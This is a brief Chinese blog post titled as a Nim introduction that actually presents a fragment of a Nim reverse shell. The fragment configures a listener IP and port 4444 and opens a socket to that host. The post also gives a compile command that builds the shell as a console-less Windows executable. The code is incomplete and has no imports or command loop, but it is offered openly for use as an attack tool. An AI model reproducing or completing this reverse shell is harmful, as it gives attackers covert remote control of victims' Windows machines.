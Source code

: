 ```yaml
---
title: Nim入门
date: 2024-01-13 20:29:00
tags: Nim
mathjax: true
---
```


# Nim入门

## 配置

按照实际情况配置IP及端口，保存文件为nimshell.nim。

```
var
    targetIP="192.168.1.25"
    targetPort="4444"
let
    exitMessage="Exiting.."
    changeDirectoryCommand="cd"
    defaultDirectory="C:\\"
try:
    socket.connect(targetIP,Port(parseInt(targetPort)))
```

## 编译

```bash
nim c -d:mingw --app:gui nimshell.nim && mv nimshell.exe myshell.exe
```
